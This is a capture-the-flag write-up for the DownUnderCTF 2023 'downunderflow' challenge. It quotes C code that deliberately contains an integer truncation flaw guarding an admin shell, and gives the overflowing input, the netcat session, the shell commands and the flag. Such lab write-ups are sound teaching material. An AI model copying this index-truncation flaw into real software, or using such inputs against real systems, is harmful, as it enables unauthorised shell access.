 # downunderflow (beginner)
It's important to see things from different perspectives.

Author: joseph

nc 2023.ductf.dev 30025

## Files
* downunderflow.c
* downunderflow

## Solution
The program asks for an integer input to get the corresponding user from an user array. The last user of the array is the admin user.

There is a function that checks if the input is out of bound. The bound is the length of the array minus one. So the last user is not accessable:
```c
char logins[NUM_USERS][USERNAME_LEN] = { "user0", "user1", "user2", "user3", "user4", "user5", "user6", "admin" };

int read_int_lower_than(int bound) {
    int x;
    scanf("%d", &x);
    if(x >= bound) {
        puts("Invalid input!");
        exit(1);
    }
    return x;
}

int main() {
    init();

    printf("Select user to log in as: ");
    unsigned short idx = read_int_lower_than(NUM_USERS - 1);
    printf("Logging in as %s\n", logins[idx]);
    if(strncmp(logins[idx], "admin", 5) == 0) {
        puts("Welcome admin.");
        system("/bin/sh");
    } else {
        system("/bin/date");
    }
}
```

But there is not check if the input over- or underflows the limit of an integer. From the _limits.h_ we know that those limits are:
```
INT_MIN	-2147483648
INT_MAX	+2147483647
```

So if we increase or decrease the input over the those limits, the integer starts again at 0. We have to input the number that over-/underflows to 7 to get the admin user:
```
$ nc 2023.ductf.dev 30025
Select user to log in as: 2147483648
Logging in as user0
Sat Sep  2 12:37:22 UTC 2023
$ nc 2023.ductf.dev 30025
Select user to log in as: 2147483655
Logging in as admin
Welcome admin.
ls -al
total 28
drwxr-xr-x 1 65534 65534  4096 Aug 31 02:12 .
drwxrwxrwt 8  1000  1000   160 Sep  2 12:26 ..
-rw-r--r-- 1 65534 65534    31 Aug 31 02:12 flag.txt
-rwxr-xr-x 1 65534 65534 17280 Aug 31 02:12 pwn
cat flag.txt
DUCTF{-65529_==_7_(mod_65536)}
exit
$
```

Our flag is: `DUCTF{-65529_==_7_(mod_65536)}`
